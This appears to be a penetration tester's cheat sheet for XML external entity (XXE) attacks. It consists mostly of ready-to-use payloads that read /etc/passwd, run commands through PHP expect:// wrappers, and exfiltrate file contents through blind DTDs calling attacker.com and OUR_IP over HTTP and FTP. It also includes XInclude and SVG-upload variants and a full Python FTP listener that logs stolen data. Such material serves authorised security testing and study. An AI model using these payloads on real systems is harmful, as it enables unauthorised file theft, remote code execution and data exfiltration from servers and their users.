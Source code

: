 - [ ] Test with Collaborator using direct reference and parameter entities
- [ ] OAST DTD -> exfiltrate
	- [ ] Error messages
	- [ ] FTP exfiltration
- [ ] SVG image upload
- [ ] XInclude
- [ ] If PHP attempt RCE and PHP wrappers
- [ ] SSRF with XXE
XXE File Read
```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE product [ 
<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
XXE File Read PHP Wrappers
```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE product [ 
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
RCE PHP Wrappers
```xml
<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE product [ 
<!ENTITY xxe SYSTEM "expect://id"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
### DTD Blind XXE
- Multi-line data exfiltration over HTTP can lead to parsing errors making it not possible to exfiltrate data from files -> Use FTP exfiltration.
- HTTP method is only for single-line file data exfiltration -> test with /etc/hostname
OAST detection
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE product [ 
<!ENTITY xxe SYSTEM "http://attacker.com/"> ]>
```
OAST detection parameter entities
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE product [ 
<!ENTITY % xxe SYSTEM "http://attacker.com/"> 
%xxe;]>
```
(PHP) OAST File Read (xxe.dtd)
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://attacker.com/?content=%file;'>">
```
OAST File Read payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<stockCheck><productId>&content;</productId></stockCheck>
```
(PHP) OAST File Read parameter entity
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY &#x25; content SYSTEM 'http://attacker.com/?content=%file;'>">
```
OAST File Read payload parameter entity
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
  %content;
]>
```
Alternative: OAST File Read (xxe.dtd)
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://attacker.com/?content=%file;'>">
%oob;
%content;
```
Alternative: File Read Payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
]>
```
OAST Error File Read (xxe.dtd)
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval; 
%error;
```
### FTP DTD Exfiltration
- For multi-line file data exfiltration
OAST File Read parameter entity
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'ftp://attacker.com/%file;'>">
%oob;
%content;
```
OAST File Read Payload parameter entity
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
]>
```
FTP server
```python
import socket  
import sys  
import argparse  
  
name = """  
=--------------------------------------=  
|  230 OOB || an Out-Of-Band XXE tool  |  
|    ____  _____  ___   ___  ____      |  
|   (___ \(__  / / _ \ / _ \|  _ \     |  
|     __) ) / / | | | | | | | |_) )    |  
|    / __/ (__ \| | | | | | |  _ (     |  
|   | |___ ___) ) |_| | |_| | |_) )    |m  
|   |_____|____/ \___/ \___/|____/     |  
|          by Corben Leo           |  
|                                      |  
|      - https://www.corben.io         |  
|      - https://hackerone.com/cdl     |  
|      - https://twitter.com/hacker_   |  
=--------------------------------------=  
"""  
  
print(name)  
  
# Setting up the FTP server  
parser = argparse.ArgumentParser(description='An Out-of-Band XXE tool by Corben Leo')  
args = parser.parse_args()  
  
HOST = '192.168.1.2'  
PORT = 21  
  
welcome = b'220 oob-xxe\n'  
ftp_catch_all_response = b'230 more data please!\n'  
ftp_user_response = b'331 hello world!\n'  
ftp_pass_response = b'230 my password is also hunter2!\n'  
  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
  
def main():  
    try:  
        s.bind((HOST, PORT))  
    except socket.error as msg:  
        print('[+] ERROR: Bind failed. ')  
        sys.exit()  
  
    s.listen(10)  
    print('[+] 230OOB started on port: '+str(PORT))  
  
    conn, addr = s.accept()  
    print('[*] Connection from: '+addr[0]+"!")  
    conn.sendall(welcome)  
  
    while True:  
        data = conn.recv(1024)  
        ftp_command = data.split(b" ", 1)  
        response = {  
            'user': ftp_user_response,  
            'pass': ftp_pass_response,  
        }.get(ftp_command[0].lower(), ftp_catch_all_response)  
        conn.sendall(response)  
        line = data.decode('UTF-8')  
        line = line.replace("\n","").replace("CWD","")  
        print(line)  
        extract(line)  
    s.close()  
  
def extract(data):  
        fopen = open('./extracted.log', 'a')  
        fopen.write(data)  
        fopen.close()  
  
try:  
    main()  
except KeyboardInterrupt:  
    s.close()
```
### XInclude
Payload for file read, found server-side XML parsing
- Used when XML parsing is not done.
```XML
<foo+xmlns:xi="http://www.w3.org/2001/XInclude">+<xi:include+parse="text"+href="file:///etc/passwd"/></foo>
```
### SVG XXE
Xinclude
```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```
XML
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
	<text font-size="16" x="0" y="16">
		&xxe;
	</text>
</svg>
```
OAST XML
```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE product [ 
<!ENTITY xxe SYSTEM "http://attacker.com/"> ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
	<text font-size="16" x="0" y="16">
		&xxe;
	</text>
</svg>
```